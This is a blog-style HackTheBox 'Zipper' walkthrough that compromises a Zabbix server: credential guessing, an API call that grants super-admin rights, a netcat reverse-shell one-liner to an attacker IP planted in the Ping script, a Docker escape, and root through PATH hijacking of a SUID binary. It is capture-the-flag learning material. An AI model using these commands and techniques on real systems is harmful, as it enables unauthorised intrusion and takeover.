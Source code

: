 ```yaml
---
layout: post
title: HackTheBox - Zipper
categories: htb
permalink: /htb-zipper
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/zipper/infocard.png)

Starting off with a nmap scan to determine open ports, thus a potential attack vector!

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

Nmap showed me that port 80 and 22 are open so I was going to access the web server, but since the header of the nmap for port 80 output says: “It Works” I assumed that I will see the default page of apache, so I went straight to use dirbuster and check for folders and files on the webserver!

![dirsearch]({{ site.baseurl }}/assets/htb-images/zipper/dirsearch.jpg)

Running dirbuster on the server, I found an interesting folder “/zabbix”.So when I entered it, it prompted me with a login page and more interestingly, I was able to login as guest user, which would be very helpful when I enumerate the web app to try to find a potential vulnerability, or potential username or password. After some inspection of the web app, I found that the developer had made a small writing mistake which let me determine that the mistake could be a potential username. The mistake which the developer made was that he accidently typed “Zapper” instead of Zipper which gave me the clue. I found this in the “Trigger” section of the web app and by tweaking the options I was able to find it.

![Zapper-Mistake]({{ site.baseurl }}/assets/htb-images/zipper/Zapper-Mistake.jpg)

Now I went to try and guess the username and password, so that I can login to the Zabbix web app and enumerate more and try to find a way to get into the system. After several attempts to guess the password, I was able to login as user Zapper.

```
#User Zapper credentials
Username: Zapper
Password: zapper
```

When I tried to login with the credentials, the web app output showed me that the GUI was disabled and after a short search in the zabbix documentation I saw that I can use the API of Zabbix, “api_jsonrpc”, to enable the web gui and proceed forward. I wrote a simple python script to enable that function.

![WEBGUIDisabled]({{ site.baseurl }}/assets/htb-images/zipper/WEBGUIDisabled.jpg)

Here is the script I wrote:

![getcookiecode2]{{ site.baseurl }}/assets/htb-images/zipper/getcookiecode2.png)
{{%% highlight python %%}}

{{%% endhighlight %%}}

The first part of the code shows that I will connect as user Zapper and will get cookie for this user, notice that “auth” is set to None because I didn't know the cookie yet, but when I run the script it will show it to me. The second part of the code is where the script will tell Zabbix program to add user Zapper in the “Zabbix Super Admin” group, which will allow me to get access to the web GUI.

![enableguicode]{{ site.baseurl }}/assets/htb-images/zipper/enableguicode.png)

After I got the cookie from the function “get_auth”, I  had to place it where “auth”:"" line is in the function “get_wgui” which in the second part of the code will enable the web GUI. This will tell the Zabbix Web app that we are logging in as Zapperwho will be placed in the zabbix super admin group. So lastly, once the the python script is ran, the output will be this.

![enableguiloginin]{{ site.baseurl }}/assets/htb-images/zipper/enableguiloginin.jpg)

After I logged in, I noticed two new options in the main page, from which, one of them was the Administration section! I enumerated the administration section and that showed me that user zapper is able to write and execute scripts, so I thought this could lead to a RCE. I saw that there was a PING script and I edited it !The scripts section was under:
> Administration->Scripts->Ping

```
#Reverse shell command
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f
```

After I editted the Ping script, I went again to the “Trigger” section and I clicked on Zabbix, which showed me a menu to execute a script, I pressed on Ping and I got reverse shell !

![revshell]{{ site.baseurl }}/assets/htb-images/zipper/revshell.jpg)

When I got the reverse shell, I noticed that the hostname of the machine is a bit weird, so I thought I may have a reverse shell in a docker instance. Now, I had to escape it and I also noticed that when I set the code execution to run through zabbix server, I get a reverse shell in docker, but when I set the code to be executed as zabbix agent, I get a reverse shell in the main system but its very unstable, and I am kicked out in 5 - 10 seconds. I had to think of any way to escape that and get a stable connection in the main system.So I thought why don't I try to upgrade it to TTY shell using python and see if the shell will stay stable. Because the machine didn't have python 2 install, I had to use python 3.

```
#Python tty shell spawn command
$ python3 -c ‘import pty;pty.spawn("/bin/bash")'
```

Luckily, this helped me to keep my shell open and stable. I just had to copy & paste the command quckily before the shell died. So to get a stable shell in the main system outside docker, I had to do the same for docker.

![stableshell]{{ site.baseurl }}/assets/htb-images/zipper/stableshell.jpg)

Now it was time to enumerate what users are available on the system. There was another user available in the system which is "zapper".

![zapperuser]{{ site.baseurl }}/assets/htb-images/zipper/zapperuser.jpg)

I had to escalate to zapper user before I could get root ! I searched in the system, but I wasn't able to find anything else except a bash script called “backup.sh” in /home/zapper/utils/. This script gave me a password to work with after running "cat" command on it. The script was only doing a backup of the files and scripts of zabbix web app and was saving them as 7z file in /backups/ folder. I tried to find anything interesting in the folder but there was nothing even after extracting the 7z file, so I thought I could try to login as user zapper with `su -l` using the password which I found in backup.sh script. This worked !

![zappershell]{{ site.baseurl }}/assets/htb-images/zipper/zappershell.jpg)

I now checked for the SSH keys of user zapper, I grabbed them and logged in with SSH. Doing another enumerating of the box I found that in folder utils in /home/zapper/, there was a script called “zabbix-service” which was owned by user root and had SUID. This meant that I would be able to run it as root without having to use sudo. This was interesting ! Running cat on the file showed me gibberish, so I used strings command instead. This showed me something interesting.

![stringszabbix-service]{{ site.baseurl }}/assets/htb-images/zipper/stringszabbix-service.jpg)

The script was actually starting the zabbix-agentd.service using systemctl. How could I exploit this ? Well, the other interesting part was that in the script, systemctl wasn't set with its' full path, so I could exploit that by setting a system variable. So now systemctl would be seen in 2 different folders and run twice by the script because it wouldn't know which path exactly to use, so it will use both.
I created a file “systemctl” in the folder /home/zapper/utils/ and wrote inside “/bin/bash” and saved the file. When I exported the path to systemctl file which I created in /home/zapper/utils/, I set the permissions of the newly created file to 777 and checked to see if the system could see the file in the home folder of zapper. Now I just had to run the script and get root !

![roottaken]{{ site.baseurl }}/assets/htb-images/zipper/roottaken.jpg)

That's the box Zipper from HackTheBox !
